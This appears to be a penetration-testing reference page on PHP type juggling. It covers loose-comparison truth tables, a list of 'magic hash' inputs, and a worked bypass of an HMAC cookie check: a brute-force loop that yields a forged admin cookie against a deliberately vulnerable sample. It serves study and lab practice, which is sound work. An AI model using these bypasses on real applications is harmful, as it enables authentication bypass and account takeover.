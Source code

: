 # Type Juggling

> PHP is a loosely typed language, which means it tries to predict the programmer's intent and automatically converts variables to different types whenever it seems necessary. For example, a string containing only numbers can be treated as an integer or a float. However, this automatic conversion (or type juggling) can lead to unexpected results, especially when comparing variables using the '==' operator, which only checks for value equality (loose comparison), not type and value equality (strict comparison).


## Summary

* [Loose Comparison](#loose-comparison)
	* [True statements](#true-statements)
	* [NULL statements](#null-statements)
	* [Loose Comparison](#loose-comparison)
* [Magic Hashes](#magic-hashes)
* [Methodology](#methodology)
* [Labs](#labs)
* [References](#references)


## Loose Comparison

> PHP type juggling vulnerabilities arise when loose comparison (== or !=) is employed instead of strict comparison (=== or !==) in an area where the attacker can control one of the variables being compared. This vulnerability can result in the application returning an unintended answer to the true or false statement, and can lead to severe authorization and/or authentication bugs.

- **Loose** comparison: using `== or !=` : both variables have "the same value".
- **Strict** comparison: using `=== or !==` : both variables have "the same type and the same value".

### True statements

| Statement                         | Output |
| --------------------------------- |:---------------:|
| `'0010e2'   == '1e3'`             | true |
| `'0xABCdef' == ' 0xABCdef'`       | true (PHP 5.0) / false (PHP 7.0) |
| `'0xABCdef' == '     0xABCdef'`   | true (PHP 5.0) / false (PHP 7.0) |
| `'0x01'     == 1`       		    | true (PHP 5.0) / false (PHP 7.0) |
| `'0x1234Ab' == '1193131'`         | true (PHP 5.0) / false (PHP 7.0) |
| `'123'  == 123`                   | true |
| `'123a' == 123`                   | true |
| `'abc'  == 0`                     | true |
| `'' == 0 == false == NULL`        | true |
| `'' == 0`                         | true |
| `0  == false `                    | true |
| `false == NULL`                   | true |
| `NULL == ''`                      | true |

> PHP8 won't try to cast string into numbers anymore, thanks to the Saner string to number comparisons RFC, meaning that collision with hashes starting with 0e and the likes are finally a thing of the past! The Consistent type errors for internal functions RFC will prevent things like `0 == strcmp($_GET['username'], $password)` bypasses, since strcmp won't return null and spit a warning any longer, but will throw a proper exception instead. 

![LooseTypeComparison](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/Images/table_representing_behavior_of_PHP_with_loose_type_comparisons.png?raw=true)

Loose Type Comparisons occurs in many languages:

* [MariaDB](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Mariadb)
* [MySQL](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Mysql)
* [NodeJS](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/NodeJS)
* [PHP](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/PHP)
* [Perl](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Perl)
* [Postgres](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Postgres)
* [Python](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Python)
* [SQLite](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/SQLite/2.6.0)


### NULL statements

| Function | Statement                  | Output |
| -------- | -------------------------- |:---------------:|
| sha1     | `var_dump(sha1([]));`      | NULL |
| md5      | `var_dump(md5([]));`       | NULL |


## Magic Hashes

>  Magic hashes arise due to a quirk in PHP's type juggling, when comparing string hashes to integers. If a string hash starts with "0e" followed by only numbers, PHP interprets this as scientific notation and the hash is treated as a float in comparison operations. 

| Hash | "Magic" Number / String    | Magic Hash                                    | Found By / Description      |
| ---- | -------------------------- |:---------------------------------------------:| -------------:|
| MD4  | gH0nAdHk                   | 0e096229559581069251163783434175              | [@spaze](https://github.com/spaze/hashes/blob/master/md4.md) |
| MD4  | IiF+hTai                   | 00e90130237707355082822449868597              | [@spaze](https://github.com/spaze/hashes/blob/master/md4.md) |
| MD5  | 240610708                  | 0e462097431906509019562988736854              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | QNKCDZO                    | 0e830400451993494058024219903391              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | 0e1137126905               | 0e291659922323405260514745084877              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | 0e215962017                | 0e291242476940776845150308577824              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | 129581926211651571912466741651878684928                | 06da5430449f8f6f23dfc1276f722738              | Raw: ?T0D??o#??'or'8.N=? |
| SHA1 | 10932435112                | 0e07766915004133176347055865026311692244      | Independently found by Michael A. Cleverly & Michele Spagnuolo & Rogdham |
| SHA-224 | 10885164793773          | 0e281250946775200129471613219196999537878926740638594636 | [@TihanyiNorbert](https://twitter.com/TihanyiNorbert/status/1138075224010833921) |
| SHA-256 | 34250003024812          | 0e46289032038065916139621039085883773413820991920706299695051332 | [@TihanyiNorbert](https://twitter.com/TihanyiNorbert/status/1148586399207178241) |
| SHA-256 | TyNOQHUS                | 0e66298694359207596086558843543959518835691168370379069085300385 | [@Chick3nman512](https://twitter.com/Chick3nman512/status/1150137800324526083)

```php
<?php
var_dump(md5('240610708') == md5('QNKCDZO')); # bool(true)
var_dump(md5('aabg7XSs')  == md5('aabC9RqS'));
var_dump(sha1('aaroZmOk') == sha1('aaK1STfY'));
var_dump(sha1('aaO8zKZF') == sha1('aa3OFF9m'));
?>
```

## Methodology

The vulnerability in the following code lies in the use of a loose comparison (!=) to validate the $cookie['hmac'] against the calculated `$hash`.

```php
function validate_cookie($cookie,$key){
	$hash = hash_hmac('md5', $cookie['username'] . '|' . $cookie['expiration'], $key);
	if($cookie['hmac'] != $hash){ // loose comparison
		return false;
		
	}
	else{
		echo "Well done";
	}
}
```

In this case, if an attacker can control the $cookie['hmac'] value and set it to a string like "0", and somehow manipulate the hash_hmac function to return a hash that starts with "0e" followed only by numbers (which is interpreted as zero), the condition $cookie['hmac'] != $hash would evaluate to false, effectively bypassing the HMAC check.

We have control over 3 elements in the cookie:
- `$username` - username you are targeting, probably "admin"
- `$expiration` - a UNIX timestamp, must be in the future
- `$hmac` - the provided hash, "0"

The exploitation phase is the following:
1. Prepare a malicious cookie: The attacker prepares a cookie with $username set to the user they wish to impersonate (for example, "admin"), `$expiration` set to a future UNIX timestamp, and $hmac set to "0".
2. Brute force the `$expiration` value: The attacker then brute forces different `$expiration` values until the hash_hmac function generates a hash that starts with "0e" and is followed only by numbers. This is a computationally intensive process and might not be feasible depending on the system setup. However, if successful, this step would generate a "zero-like" hash.
	```php
	// docker run -it --rm -v /tmp/test:/usr/src/myapp -w /usr/src/myapp php:8.3.0alpha1-cli-buster php exp.php
	for($i=1424869663; $i < 1835970773; $i++ ){
		$out = hash_hmac('md5', 'admin|'.$i, '');
		if(str_starts_with($out, '0e' )){
			if($out == 0){
				echo "$i - ".$out;
				break;
			}
		}
	}
	?>
	```
3. Update the cookie data with the value from the bruteforce: `1539805986 - 0e772967136366835494939987377058`
	```php
	$cookie = [
		'username' => 'admin',
		'expiration' => 1539805986,
		'hmac' => '0'
	];
	```
4. In this case we assumed the key was a null string : `$key = '';`


## Labs

* [Root Me - PHP - Type Juggling](https://www.root-me.org/en/Challenges/Web-Server/PHP-type-juggling)
* [Root Me - PHP - Loose Comparison](https://www.root-me.org/en/Challenges/Web-Server/PHP-Loose-Comparison)


## References

- [(Super) Magic Hashes - myst404 (@myst404_) - October 7, 2019](https://offsec.almond.consulting/super-magic-hash.html)
- [Magic Hashes - Robert Hansen - May 11, 2015](http://web.archive.org/web/20160722013412/https://www.whitehatsec.com/blog/magic-hashes/)
- [Magic hashes – PHP hash "collisions" - Michal Špaček (@spaze) - May 6, 2015](https://github.com/spaze/hashes)
- [PHP Magic Tricks: Type Juggling - Chris Smith (@chrismsnz) - August 18, 2020](http://web.archive.org/web/20200818131633/https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf)
- [Writing Exploits For Exotic Bug Classes: PHP Type Juggling - Tyler Borland (TurboBorland) - August 17, 2013](http://turbochaos.blogspot.com/2013/08/exploiting-exotic-bugs-php-type-juggling.html)